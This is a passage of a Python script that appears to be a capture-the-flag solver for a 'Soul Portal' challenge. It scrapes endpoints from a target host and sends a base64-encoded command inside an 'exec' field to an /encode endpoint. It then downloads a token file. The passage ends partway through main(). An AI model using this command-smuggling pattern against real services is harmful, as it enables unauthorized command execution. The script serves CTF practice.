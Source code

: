 ```python
#!/usr/bin/env python3

import argparse
import requests
import base64
from bs4 import BeautifulSoup

def get_endpoints(host, port):
    url = f"http://{host}:{port}/explorer"
    resp = requests.get(url)
    soup = BeautifulSoup(resp.text, 'html.parser')
    links = soup.find_all('a')
    endpoints = [link.get('href') for link in links if link.get('href') and link.get('href').startswith("/")]
    return endpoints

def visit_endpoints(host, port, headers, endpoints):
    print("[+] Visiting discovered endpoints to track perspective...")
    for ep in endpoints:
        url = f"http://{host}:{port}{ep}"
        resp = requests.get(url, headers=headers)
        if resp.status_code == 200:
            print(f"Visited: {ep}")
        else:
            print(f"Unexpected response {resp.status_code} from {ep}")

def send_payload(host, port, headers):
    print("\n[+] Sending encoded payload to /encode...")
    cmd = "soul"   # <--- This is the string you want, base64 encoded
    encoded_cmd = base64.b64encode(cmd.encode()).decode()

    payload = {
        "task": {
            "payload": {
                "exec": {
                    "cmd": encoded_cmd
                }
            }
        }
    }

    resp = requests.post(f"http://{host}:{port}/encode", headers=headers, json=payload)
    if resp.status_code == 200:
        print("[+] Encode successful!")
        print(resp.json())
    else:
        print(f"[!] Encode failed: {resp.status_code}")
        print(resp.text)

def download_token(host, port):
    print("\n[+] Attempting to download the token...")
    resp = requests.get(f"http://{host}:{port}/download_token")
    if resp.status_code == 200:
        with open("token3.txt", "wb") as f:
            f.write(resp.content)
        print("[+] Token downloaded as token3.txt")
    else:
        print(f"[!] Failed to download token: {resp.status_code}")
        print(resp.text)

def main():
    parser = argparse.ArgumentParser(description="Soul Solver (Soul Portal)")
    parser.add_argument("--host", required=True, help="Target IP")
```
